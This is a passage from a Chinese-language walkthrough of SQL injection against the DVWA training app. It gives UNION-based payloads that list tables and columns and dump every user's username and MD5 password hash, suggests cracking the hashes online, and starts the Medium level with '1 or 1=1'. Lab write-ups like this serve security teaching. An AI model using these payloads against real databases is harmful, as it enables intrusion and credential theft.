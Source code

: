 可获取数据库版本和当前操作系统：

![20190502152012.png](https://raw.githubusercontent.com/handbye/images/master/20190502152012.png)

> information_schema 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

- 输入以下语句进行查询：

```sql

1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#
```

可获取数据表名：

![20190502152239.png](https://raw.githubusercontent.com/handbye/images/master/20190502152239.png)

可看到当前数据库中有两个表：`guestbook`和`users`

4. 获取表中的字段名

输入以下语句进行查询：

```sql

1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
```

![20190502152953.png](https://raw.githubusercontent.com/handbye/images/master/20190502152953.png)

说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。

5. 获取users表中的所有数据

输入以下语句进行查询：

```sql

1' union select user,password from users#
```

![20190502153241.png](https://raw.githubusercontent.com/handbye/images/master/20190502153241.png)

得到了所有用户的用户名和密码，密码使用MD5加密后的字符串，使用在线MD5解密网站解密即可。

## Medium等级

Medium等级不再是用户进行输入，而是改为了选择ID。

和low等级的注入过程一样，先判断下是字符型注入还是数字注入。

和LOW等级不同的是这次需要抓包修改：

使用`1 or 1=1` 注入，显示如下：

![20190502162632.png](https://raw.githubusercontent.com/handbye/images/master/20190502162632.png)
